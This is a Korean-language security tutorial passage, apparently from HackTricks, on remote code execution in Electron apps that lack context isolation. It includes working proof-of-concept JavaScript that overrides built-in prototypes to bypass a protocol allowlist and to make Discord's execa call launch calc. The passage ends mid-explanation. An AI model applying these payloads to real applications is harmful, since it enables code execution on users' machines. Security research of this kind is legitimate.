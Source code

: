 # Electron contextIsolation RCE via preload code

{{#include ../../../banners/hacktricks-training.md}}

## Example 1

[https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30)의 예시

이 코드는 기본 브라우저로 http(s) 링크를 엽니다:

![](<../../../images/image (768).png>)

`file:///C:/Windows/systemd32/calc.exe`와 같은 것을 사용하여 calc를 실행할 수 있지만, `SAFE_PROTOCOLS.indexOf`가 이를 방지하고 있습니다.

따라서 공격자는 XSS 또는 임의 페이지 탐색을 통해 이 JS 코드를 주입할 수 있습니다:
```html
<script>
Array.prototype.indexOf = function () {
return 1337
}
</script>
```
`SAFE_PROTOCOLS.indexOf`가 항상 1337을 반환하므로, 공격자는 보호를 우회하고 calc를 실행할 수 있습니다. 최종 익스플로잇:
```html
<script>
Array.prototype.indexOf = function () {
return 1337
}
</script>
<a href="file:///C:/Windows/systemd32/calc.exe">CLICK</a>
```
원본 슬라이드를 확인하여 권한 요청 없이 프로그램을 실행하는 다른 방법을 찾아보세요.

코드를 로드하고 실행하는 또 다른 방법은 `file://127.0.0.1/electron/rce.jar`와 같은 경로에 접근하는 것입니다.

## 예제 2: Discord 앱 RCE

[https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)에서의 예제

프리로드 스크립트를 확인하는 동안 Discord가 `DiscordNative.nativeModules.requireModule('MODULE-NAME')`를 통해 일부 허용된 모듈을 호출할 수 있는 기능을 웹 페이지에 노출한다는 것을 발견했습니다.\
여기서 _child_process_ 모듈과 같이 RCE에 직접 사용할 수 있는 모듈은 사용할 수 없었지만, **JavaScript 내장 메서드를 오버라이드하여 RCE를 달성할 수 있는 코드를 발견했습니다** 그리고 노출된 모듈의 실행에 간섭했습니다.

다음은 PoC입니다. **`RegExp.prototype.test`와 `Array.prototype.join`을 오버라이드하는 동안** devTools에서 "_discord_utils_"라는 모듈에 정의된 **`getGPUDriverVersions` 함수를 호출할 때** **calc** 애플리케이션이 **팝업**되는 것을 확인할 수 있었습니다.
```javascript
RegExp.prototype.test = function () {
return false
}
Array.prototype.join = function () {
return "calc"
}
DiscordNative.nativeModules
.requireModule("discord_utils")
.getGPUDriverVersions()
```
`getGPUDriverVersions` 함수는 다음과 같이 "_execa_" 라이브러리를 사용하여 프로그램을 실행하려고 시도합니다:
```javascript
module.exports.getGPUDriverVersions = async () => {
if (process.platform !== "win32") {
return {}
}

const result = {}
const nvidiaSmiPath = `${process.env["ProgramW6432"]}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`

try {
result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []))
} catch (e) {
result.nvidia = { error: e.toString() }
}

return result
}
```
보통 _execa_는 `nvidiaSmiPath` 변수에 지정된 "_nvidia-smi.exe_"를 실행하려고 하지만, 오버라이드된 `RegExp.prototype.test`와 `Array.prototype.join` 때문에 **인수가 \_execa**\_**의 내부 처리에서 "**_**calc**_**"로 대체됩니다**.

구체적으로, 인수는 다음 두 부분을 변경하여 대체됩니다.
